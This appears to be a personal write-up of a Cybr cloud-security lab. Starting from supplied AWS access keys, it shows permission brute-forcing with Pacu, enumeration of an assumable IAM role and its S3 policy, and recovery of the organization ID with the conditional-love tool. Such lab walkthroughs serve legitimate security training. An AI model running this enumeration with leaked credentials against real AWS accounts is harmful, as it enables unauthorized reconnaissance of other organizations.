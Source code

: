 ```yaml
---
title: discover aws organization id via s3 bucket
published: 2025-03-08
description: ''
image: ../../assets/discover_aws_organization_id_via_s3_bucket/icon.png
tags: [aws]
category: 'cloud-security'
draft: false 
lang: ''
---
```


Lab: https://cybr.com/hands-on-labs/lab/discover-aws-organization-id-via-s3-bucket/


![](src/assets/discover_aws_organization_id_via_s3_bucket/Discover_AWS_Organization_ID_via_S3_Bucket_image_1.png)

here we are provided with an Access Key ID and a secrete access key (maybe from a breach or smtg)

the end goal is to recover the AWS organization ID

> Organization:
> Contains details about an organization. An organization is a collection of accounts that are centrally managed together using consolidated billing, organized hierarchically with organizational units (OUs), and controlled with policies .


# Enumeration

### configure a profile
lets first configure a profile with the given credentials

```bash
aws configure --profile cybr
```

now lets verify if our profile is configured correctly
```bash
aws sts get-caller-identity --profile cybr
```

```bash
{
    "UserId": "AIDAQGYBPW3XMMUDWOW3R",
    "Account": "014498641646",
    "Arn": "arn:aws:iam::014498641646:user/Daniel"
}
```

we see that the `userId` is the same as `Access Key ID`, and it is associated to a user called Daniel

### get permissions we have
we will use a tool called pacu 

after installing it, we start a new session and search for iam related commands, we found `iam__bruteforce_permissions` that will return to use the permissions our current user have

but first lets import our keys

```
import_keys cybr
```

```bash
run iam__bruteforce_permissions

...
2025-03-07 21:34:42,865 - 69621 - [INFO] -- Account Id  : 350973243370
2025-03-07 21:34:42,865 - 69621 - [INFO] -- Account Path: user/Daniel
2025-03-07 21:34:43,173 - 69621 - [INFO] Attempting common-service describe / list brute force.
2025-03-07 21:34:58,799 - 69621 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2025-03-07 21:35:01,948 - 69621 - [INFO] -- sts.get_caller_identity() worked!
2025-03-07 21:35:02,161 - 69621 - [INFO] -- sts.get_session_token() worked!
2025-03-07 21:35:03,841 - 69621 - [INFO] -- iam.list_roles() worked!
...
```
we see that we can do  `iam.list_roles()`

```bash
aws iam list-roles --profile cybr

...
{
            "Path": "/",
            "RoleName": "S3AccessImages",
            "RoleId": "AROAVDN5CV7VD3HONXEBS",
            "Arn": "arn:aws:iam::350973243370:role/S3AccessImages",
            "CreateDate": "2025-03-07T22:58:24+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::350973243370:user/Daniel"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            },
            "Description": "Assumable role to demonstrate aws:ResourceOrgId",
            "MaxSessionDuration": 3600
        }
...
```

we notice this custom role

lets get policies of this role (what we can do if we have this role)

```bash
aws iam list-role-policies --role-name S3AccessImages --profile cybr

{
    "PolicyNames": [
        "AccessS3BucketObjects"
    ]
}
```


```bash
aws iam get-role-policy --role-name S3AccessImages --policy-name AccessS3BucketObjects --profile cybr


{
    "RoleName": "S3AccessImages",
    "PolicyName": "AccessS3BucketObjects",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "s3:ListBucket",
                    "s3:GetObject"
                ],
                "Resource": [
                    "arn:aws:s3:::img.cybrlabs.io",
                    "arn:aws:s3:::img.cybrlabs.io/*"
                ],
                "Effect": "Allow"
            }
        ]
    }
```

we see that this account have `ListObject` and `GetObject` Actions on another account `:img.cybrlabs.io`

# Exploitation
we will use a tool called conditional-love, to retrieve the organization ID character by character

```bash
python conditional-love.py --role arn:aws:iam::350973243370:role/S3AccessImages --target s3://img.cybrlabs.io --action=s3:HeadObject --condition=aws:ResourceOrgID --alphabet='0123456789abcdefghijklmnopqrstuvwxyz-' --profile cybr

```

![](src/assets/discover_aws_organization_id_via_s3_bucket/Discover_AWS_Organization_ID_via_S3_Bucket_image_2.png)



